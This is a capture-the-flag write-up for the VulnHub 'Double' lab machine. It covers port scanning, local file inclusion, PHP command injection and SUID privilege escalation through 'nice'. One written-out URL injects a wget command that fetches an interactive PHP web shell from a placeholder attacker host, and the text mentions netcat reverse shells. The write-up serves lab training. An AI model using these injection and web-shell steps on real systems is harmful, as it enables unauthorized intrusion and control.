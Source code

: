 # VulnHub-Double

## Netdiscover

<img src="https://imgur.com/u8vD72S.png"/>

## Rustscan

```
 rustscan -a 192.168.1.9 -- -A -sC -sV                                                  
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.             
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |             
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |     
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'                                                                                            
The Modern Day Port Scanner.                                                                                                                        
________________________________________                                                                                                            
: https://discord.gg/GFrQsGy           :                                                                                                            
: https://github.com/RustScan/RustScan :                                                                                                            
 --------------------------------------                                                                                                             
Real hackers hack time ⌛                                                       
[~] The config file is expected to be at "/root/.rustscan.toml"                                                                                     
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers                                 
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.          
Open 192.168.1.9:22                                      
Open 192.168.1.9:25                                                 
Open 192.168.1.9:80                                                 
Open 192.168.1.9:8080 



PORT     STATE SERVICE REASON         VERSION                             
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:       
|   2048 de:b5:23:89:bb:9f:d4:1a:b5:04:53:d0:b7:5c:b0:3f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bVoBm6Jd8SD9AJ0qjLyo0oU4cgQthlFxui+n/qXM6NYRxBcWn0gva/MDLyW1neLva6hhuKFR/6GE6PtQ1Gge9SKOzmQPGXi2RBUQaVINZu
Ydb6Q0QR0BT3ppGMMsw8bNxluttaYIzbeK5tR4zCG8xPGss6LvLbtjfcjugxKWRF58hstDIHwtPhzYX3gnH17yN5w6NuSlpPwaCTbcFZNAqqAhoKSBBIUcZTYC5mdcp+EOR6ao3LCsk98bOxNSKz
3RdfmN3ch1Z6NaEbR/A9DIEoeC5e+e1GG6zGoDoSET1QstiMAahrs2yIhfHVxQUhlS9upju8OrRB0yCWvE2IG3
|   256 16:09:14:ea:b9:fa:17:e9:45:39:5e:3b:b4:fd:11:0a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJPWpmfjbTeUtsjjJTkCPHFjiq+48Q/3ZYU+H0Kc/K6S785qBs1oRncFAGFV9A0xYtaUnmnohu
0OHP7sRJVoUR8=                       
|   256 9f:66:5e:71:b9:12:5d:ed:70:5a:4f:5a:8d:0d:65:d5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJElctLWgcGu5SJqqW0MvhE4rBIGL0YLBZYt4sg+esy/
25/tcp   open  smtp    syn-ack ttl 64 Postfix smtpd
|_smtp-commands: shredder.calipendu.la, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=shredder.calipendu.la
| Subject Alternative Name: DNS:shredder.calipendu.la
| Issuer: commonName=shredder.calipendu.la
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
| http-methods:        
|_  Supported Methods: GET HEAD POST OPTIONS  
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38
| http-auth:                                                              
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=HU?                                                       
|_http-server-header: Apache/2.4.38 (Debian)                      
|_http-title: 401 Unauthorized                                            
MAC Address: 08:00:27:6A:6B:F6 (Oracle VirtualBox virtual NIC)    


```


## PORT 80 (HTTP)

<img src="https://imgur.com/bUJsDWI.png"/>

On clicking `Test` it will redirect us to port 8080 by asking credentials

<img src="https://imgur.com/bpSLkzX.png"/>

<img src="https://imgur.com/zYPRhfy.png"/>

We can see a paramter `out`
<img src="https://imgur.com/nJqHi0j.png"/>

On tampering with that paramter it gave an error which is useful to us because error is related to opening a file `include_path` so we can try for lfi (Local File Inclusion)

<img src="https://imgur.com/DR7Sdru.png"/>

But apart from just seeing `/etc/passwd` can't access anything else. Going back to `/production` I tried to inject php code

<img src="https://imgur.com/qeNMXQN.png"/>

<img src="https://imgur.com/Wjd9ln9.png"/>

Now I can get a reverse shell but running `netcat` directly through parameter was not working I was getting a connection then it was closing so I upload `phpbash.php` which is an interactive php shell

`http://192.168.1.9/production/sendcommand.php?out=out&cmd=wget http://attacker_ip/phpbash.php;`

<img src="https://imgur.com/0gLaOI8.png"/>

After getting a netcat shell I ran linpeas

<img src="https://imgur.com/opKtkU9.png"/>

it showed `nice` as SUID , nice is a binary used to invoke a utility or shell script with a particular CPU priority, thus giving the process more or less CPU time than other processes as it is a system binary there might be something on GTFOBINS for it

<img src="https://imgur.com/F0FxyJI.png"/>

<img src="https://imgur.com/oBkuq5M.png"/>
